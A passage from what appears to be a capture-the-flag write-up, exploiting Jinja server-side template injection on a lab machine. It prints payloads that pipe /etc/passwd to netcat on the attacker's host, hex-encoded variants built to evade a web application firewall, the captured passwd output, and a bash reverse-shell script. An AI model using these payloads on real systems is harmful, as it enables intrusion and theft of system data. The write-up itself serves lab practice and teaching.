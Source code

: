     {% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}



This payload is attempting to read `/etc/passwd` and send it back over
`nc`.

I'll have to tweak it a bit to get around the WAF, so I'll encode the
suspect characters to see if that gets through:



    {% if request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat /etc/passwd | nc 10\x2e10\x2e14\x2e7 1337")["read"]() == "chiv" %} a {% endif %}



It seems there are some multicharacter rules in place as well:

![](/img/image-20210517144030463.png)

Another option with the `{% %}` syntax is to include another object.



    {% include request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat /etc/passwd | nc 10\x2e10\x2e14\x2e7 1337")["read"]()%}



The bad news if that the results will not be displayed back to the page,
as once the execution happens and returns, it will certainly fail the
`include`. But if it works, the execution should have shipped
`/etc/passwd` back to me already at that point.

With `nc` listening, submitting that as the message worked!



    oxdf@parrot$ nc -lnvp 1337
    listening on [any] 1337 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.243] 51278
    root:x:0:0:root:/root:/bin/bash
    ...[snip]...
    chiv:x:1000:1000:chiv:/home/chiv:/bin/bash
    mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false



The page hangs until I kill the `nc`, and then it return 500 as
expected.

### Shell

I created a `shell.sh` locally:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.7/443 0>&1
